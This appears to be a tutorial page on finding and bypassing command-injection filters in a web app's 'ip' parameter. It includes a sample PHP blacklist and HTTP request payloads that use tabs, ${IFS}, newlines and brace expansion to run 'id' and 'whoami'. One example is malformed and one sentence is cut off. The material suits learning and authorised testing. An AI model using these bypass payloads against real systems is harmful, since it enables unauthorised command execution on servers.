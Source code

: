 ## Filter/WAF Detection
If we try the following payload (`?ip=127.0.0.1;id&&whoami`) and received any error message. It may indicate that we triggered a security mechanism, this might be because the web application has either detected a blacklisted character or a blacklisted command.

If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
## Blacklisted Character and Commands
A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. A PHP code may look something like the following:
```php
$blacklist = ['&', '|', ';', 'whoami', 'id', ...SNIP...];
foreach ($blacklist as $malicious) {
	if (strpos($_POST['ip'], $malicious) !== false) {
		echo "Invalid input.";
	}
}
```
If any character or command in the string an attacker sent matches a value of the blacklist array, the request will be denied. However, in this example, the code is looking for an exact match of the provided character or command. An attacker can easily bypass this by using a different command or obfuscating their payload.
## Identifying Blacklisted Characters and Commands
To identify which characters and commands are blacklisted, send a request containing each character or command and see which of them gets an error. An error indicates that the character or command is blacklisted.
## Bypass Space Filters
A commonly blacklisted character is a space ( ) or `+` when its encoded. There are a couple of ways to bypass such filters for this characters.
## Using New-line
Using 
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0id 
```
### Using Tabs
Using tabs (`%09`) instead of spaces is a technique that might work, since both Linux and Windows accept commands with tabs in between arguments, and they are executed the same.  Example:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%09whoami
```
### Using $IFS
The `$IFS` is a Linux Environment Variable that can used since its default value is a space and a tab, which would work between command arguments. So if the `$IFS` is used, the variable should automatically be replaced by a space and the command should work.
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1${IFS}whoami
```
> Note: When parsed, this will translate into the CLI `127.0.0.1$IFSwhoami`.
## Using Brace Expansion
The Bash Brace Expansion feature (`{ls,-la}`) automatically ads spaces between arguments wrapped in braces. We can also utilize this same method to bypass space filters.
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0a{id,whoami}
```